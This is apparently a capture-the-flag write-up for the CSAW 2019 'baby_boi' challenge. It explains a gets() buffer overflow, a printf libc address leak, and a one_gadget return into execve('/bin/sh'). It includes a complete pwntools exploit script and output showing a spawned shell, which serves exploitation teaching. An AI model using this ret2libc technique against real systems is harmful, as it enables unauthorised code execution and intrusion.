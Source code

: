 # Csaw 2019 Babyboi

Let's take a look at the binary, libc file, and source code. For this challenge we do get a copy of it:

```
$    file baby_boi
baby_boi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e1ff55dce2efc89340b86a666bba5e7ff2b37f62, not stripped
$    pwn checksec baby_boi
[*] '/Hackery/pod/modules/8-bof_dynamic/csaw19_babyboi/baby_boi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
$    ./libc-2.27.so
GNU C Library (Ubuntu GLIBC 2.27-3ubuntu1) stable release version 2.27.
Copyright (C) 2018 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 7.3.0.
libc ABIs: UNIQUE IFUNC
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.
$    ./baby_boi
Hello!
Here I am: 0x7f995049c830
15935728
$    cat baby_boi.c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv[]) {
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stderr, NULL, _IONBF, 0);

  char buf[32];
  printf("Hello!\n");
  printf("Here I am: %p\n", printf);
  gets(buf);
}
```

So we can see that the binary just prompts us for text. Looking at the source code, we see that it prints the libc address for `printf`. After that it calls `gets` on a fixed sized buffer, which gives us a buffer overflow. We can see that the `libc` version is `libc-2.27.so `. Also the only binary protection we see is NX.

## Exploitation

So to exploit this, we will use the buffer overflow. We will call a oneshot gadget, which is a single ROP gadget in the libc that will call `execve("/bin/sh")` given the right conditions. We can find this using the `one_gadget` utility (https://github.com/david942j/one_gadget):

```
$    one_gadget libc-2.27.so
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

So leveraging the libc infoleak with the `printf` statement to the libc `printf` (and that we know which libc version it is), we know the address space of the libc. For which onegadget to pick, I typically just do trial and error to see what conditions will work. You can actually check when it is called to see what conditions will be met however.

## Exploit

Putting it all together, we have the following exploit. This was ran on `Ubuntu 18.04`:

```
from pwn import *

# Establish the target
target = process('./baby_boi', env={"LD_PRELOAD":"./libc-2.27.so"})
libc = ELF('libc-2.27.so')
#gdb.attach(target)

print target.recvuntil("ere I am: ")

# Scan in the infoleak
leak = target.recvline()
leak = leak.strip("\n")

base = int(leak, 16) - libc.symbols['printf']

print "wooo:" + hex(base)

# Calculate oneshot gadget
oneshot = base + 0x4f322

payload = ""
payload += "0"*0x28         # Offset to oneshot gadget
payload += p64(oneshot)     # Oneshot gadget

# Send the payload
target.sendline(payload)

target.interactive()
```

When we run the exploit:

```
$    python exploit.py
[+] Starting local process './baby_boi': pid 12693
[*] '/home/guyinatuxedo/Desktop/babyboi/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
Hello!
Here I am:
wooo:0x7fe0eb22e000
[*] Switching to interactive mode
$ w
 21:29:32 up 57 min,  1 user,  load average: 0.17, 0.26, 0.15
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               16Sep19 ?xdm?  47.39s  0.00s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu gnome-session --session=ubuntu
$ ls
baby_boi  baby_boi.c  exploit.py  libc-2.27.so    readme.md
```

## Are you getting a Segmentation fault?

Your system might not be compatible with the provided `libc` version, but you can still craft your own exploit for your `libc` version.

1. Figure out your `libc` path:

```bash
$ ldd ./baby_boi

  linux-vdso.so.1 =>  (0x00007fff3e1f3000)
  libc.so.6 => /lib/libc.so.6 (0x00007f621f162000)
  /lib64/ld-linux-x86-64.so.2 (0x00007f621f504000)
```

We can see that our `libc` sits in `/lib/libc.so.6`

2. Now we can find the `one_gadget` for your `libc` version:

```bash
$ one_gadget /lib/libc.so.6
```

3. Finally replace the exploit with your `libc` path and the new adress found through the `one_gadget`.
